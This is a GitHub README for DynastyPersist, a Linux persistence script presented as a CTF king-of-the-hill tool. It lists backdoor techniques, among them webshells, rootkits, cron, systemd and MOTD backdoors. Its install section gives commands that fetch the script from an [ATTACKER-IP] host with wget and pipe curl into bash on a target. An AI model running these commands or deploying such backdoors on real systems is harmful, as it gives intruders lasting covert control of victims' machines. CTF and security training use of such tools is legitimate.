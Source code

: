 
<h1 align="center">DynastyPersist</h1>


* A CTF Tool for Linux persistence (KOTH, Battlegrounds)

* A powerful and versatile Linux persistence script designed for various security assessment and testing scenarios. This script provides a collection of features that demonstrate different methods of achieving persistence on a Linux system.

![GitHub](https://img.shields.io/github/license/trevohack/DynastyPersist)
![GitHub stars](https://img.shields.io/github/stars/trevohack/DynastyPersist)

## Features

1. **SSH Key Generation:** Automatically generates SSH keys for covert access.

2. **Cronjob Persistence:** Sets up cronjobs for scheduled persistence.

3. **Custom User with Root:** Creates a custom user with root privileges.

4. **RCE Persistence:** Achieves persistence through remote code execution (php webshell).

5. **LKM/Rootkit:** Demonstrates Linux Kernel Module (LKM) based rootkit persistence.

6. **Bashrc Persistence:** Modifies user-specific shell initialization files for persistence.

7. **Systemd Service for Root:** Sets up a systemd service for achieving root persistence.

8. **LD_PRELOAD Privilege Escalation Config:** Configures LD_PRELOAD for privilege escalation.

9. **Backdooring Message of the Day / Header:** Backdoors system message display for covert access.

10. **Modify an Existing Systemd Service:** Manipulates an existing systemd service for persistence.


## Installation

1. Clone this repository to your local machine:

```bash
$ git clone https://github.com/Trevohack/DynastyPersist.git

$ python3 -m http.server 8080 
root@tyler.thm # cd /opt && wget -c [ATTACKER-IP]:8080/DynastyPersist && cd DynastyPersist && chmod +x dynasty.sh && ./dynasty.sh
``` 

2. One linear
   
```bash
curl -sSL [ATTACKER-IP]8080/DynastyPersist/dynasty.sh | bash
``` 

## Support

For support, email spaceshuttle.io.all@gmail.com or join our Discord server. 

* Discord: `https://discord.gg/WYzu65Hp`

Thank You! 

![icons8-linux](https://github.com/Trevohack/DynastyPersist/assets/136177431/61035f94-039b-4ed9-b463-36a78aa69ab0)
